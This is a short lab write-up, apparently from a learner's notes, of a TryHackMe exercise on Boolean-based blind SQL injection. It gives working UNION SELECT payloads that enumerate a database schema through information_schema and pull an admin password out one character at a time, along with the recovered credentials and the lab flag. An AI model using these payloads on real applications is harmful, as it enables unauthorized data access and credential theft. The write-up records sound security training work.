

# Level Three – Boolean-Based Blind SQLi

**Date recorded:** 2025-09-24  
**Lab Objective:** Enumerate database, table, and column names using Boolean-based Blind SQLi.

**Payloads used:**  ```http
- Check username existence:  
https://website.thm/checkuser?username=admin

**Discover database name and tables:**
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--

**Enumerate columns:**
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' AND TABLE_NAME='users' AND COLUMN_NAME LIKE 'a%';

**Retrieve username and password:**
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3845%';

**Result / Notes:**
- Successfully discovered database sqli_three, table users, and columns id, username, password.
- Retrieved login credentials by cycling through characters.
- Flag obtained for this task: Flag: THM{SQL_INJECTION_1093}
- Performed in a safe TryHackMe lab environment.

**Recovered Data:**
Username: admin
Password: 3845


**Screenshot:**



**What I Learned:**
- Boolean-based Blind SQLi requires careful observation of true/false responses.
- Enumeration using information_schema is crucial to map database structure.
- Patience and methodical testing are key to finding hidden data.